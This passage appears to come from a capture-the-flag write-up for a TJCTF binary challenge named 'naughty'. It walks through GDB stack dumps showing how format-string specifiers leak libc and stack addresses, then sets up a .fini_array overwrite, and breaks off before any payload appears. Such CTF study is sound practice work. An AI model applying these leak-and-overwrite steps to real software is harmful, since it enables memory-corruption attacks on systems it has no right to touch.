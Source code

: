 I used an Ubuntu 18 container.  Ubuntu 18.04 was consistently used for the other (TJCTF) binary challenges.  At least for the machines I checked (when you get a flag, hangout for a while, poke around, see what you can see :-).

> I've been screwed in the past using 19 with hardcoded stack parameter offsets just to have the remote server fail.  Best to have a close match.

If you want to follow along, start up GDB, load up `naughty`, set a breakpoint for the last `printf` statement (`b *main+249`), run, and dump the stack:

> Output from GDB (with [GEF](https://gef.readthedocs.io/en/master/)), however I added the first column for illustration purposes.

```
    0xffffd570│+0x0000: 0xffffd58c  →  "blah\n"    ← $esp
01: 0xffffd574│+0x0004: 0x00000100
02: 0xffffd578│+0x0008: 0xf7faa5c0  →  0xfbad2288  <---------------- _IO_2_1_stdin_ (0xf7faa5c0)
03: 0xffffd57c│+0x000c: 0x08048550  →  <main+26> add ebx, 0x1754
04: 0xffffd580│+0x0010: 0xf7ddf438  →  0x00002dfe
05: 0xffffd584│+0x0014: 0x0000093c ("<\t"?)
06: 0xffffd588│+0x0018: 0xf7ddfcc8  →  0x72647800
07: 0xffffd58c│+0x001c: "blah\n"
08: 0xffffd590│+0x0020: 0xffff000a  →  0x00000000
09: 0xffffd594│+0x0024: 0xffffd5e0  →  0x00000000
10: 0xffffd598│+0x0028: 0x00000003
11: 0xffffd59c│+0x002c: 0x00000000
12: 0xffffd5a0│+0x0030: 0xf7ffd000  →  0x00026f34
13: 0xffffd5a4│+0x0034: 0xf7ddfcc8  →  0x72647800
14: 0xffffd5a8│+0x0038: 0xf7dd6012  →  0x15d5a529
15: 0xffffd5ac│+0x003c: 0xf7ddf438  →  0x00002dfe
16: 0xffffd5b0│+0x0040: 0xf63d4e2e
17: 0xffffd5b4│+0x0044: 0x0804829c  →  "__libc_start_main"
18: 0xffffd5b8│+0x0048: 0x07b1ea71
19: 0xffffd5bc│+0x004c: 0xffffd664  →  0xf7faa000  →  0x001d7d6c  <- stack address (0xffffd664)
20: 0xffffd5c0│+0x0050: 0xffffd5e4  →  0x00000000
```

The second parameter did not disappoint; `%2$p` holds the return the address of `_IO_2_1_stdin_`.  We have libc.

However, best to double check from GDB:

```
gef➤  disas 0xf7faa5c0
Dump of assembler code for function _IO_2_1_stdin_:
   0xf7faa5c0 <+0>:	mov    BYTE PTR [edx],ah
...   
```

Looking down stack at `%19$p` is an address relative to the stack (`0xffffd664`)--save this for later.

Next, overwrite `.fini_array` for a second pass at the format string vulnerability:

> With _No PIE_, the addresses will be static and can be obtained from Ghidra, `objdump`, etc... (see above).

